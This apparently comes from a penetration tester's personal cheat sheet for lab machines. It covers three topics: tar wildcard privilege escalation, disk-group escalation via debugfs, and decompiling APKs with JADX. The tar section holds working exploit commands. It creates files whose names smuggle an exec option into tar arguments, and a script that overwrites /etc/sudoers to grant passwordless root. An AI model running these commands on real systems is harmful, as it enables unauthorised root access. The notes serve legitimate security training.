 
#### [TAR Sudo Privesc](https://medium.com/@polygonben/linux-privilege-escalation-wildcards-with-tar-f79ab9e407fa)

```
# 1. Create files in the current directory called  
# '--checkpoint=1' and '--checkpoint-action=exec=sh privesc.sh'  
  
echo "" > '--checkpoint=1'  
echo "" > '--checkpoint-action=exec=sh privesc.sh'  
  
# 2. Create a privesc.sh bash script, that allows for privilege escalation  
#malicous.sh:  
echo 'kali ALL=(root) NOPASSWD: ALL' > /etc/sudoers  
  
#The above injects an entry into the /etc/sudoers file that allows the 'kali'  
#user to use sudo without a password for all commands  
#NOTE: we could have also used a reverse shell, this would work the same!  
#OR: Even more creative, you could've used chmod to changes the permissions  
#on a binary to have SUID permissions, and PE that way
```

### [Disk group privilege escalation](https://vk9-sec.com/disk-group-privilege-escalation/?source=post_page-----9aaa071b5989--------------------------------)
```
 Check the permissions on the current user
- id

 List /dev devices owner and group owner
- ls -l /dev

You can also find the partitions owned by disk group
- find /dev -group disk

Also display the available partitions
- df -h

Exploit:
- debugfs /dev/sda2'


```

### [JADX](https://github.com/skylot/jadx)

```
**jadx** - Dex to Java decompiler

This was a hard one I had to use for the PG Educated box. 

If you find a .apk file, you can use jadx-gui to reverse it into java code.

This will likely give you a MainActivity class with methods inside. You can copy this methods into

public class Main { public static void main(String[] args) {
code here...
} }
```
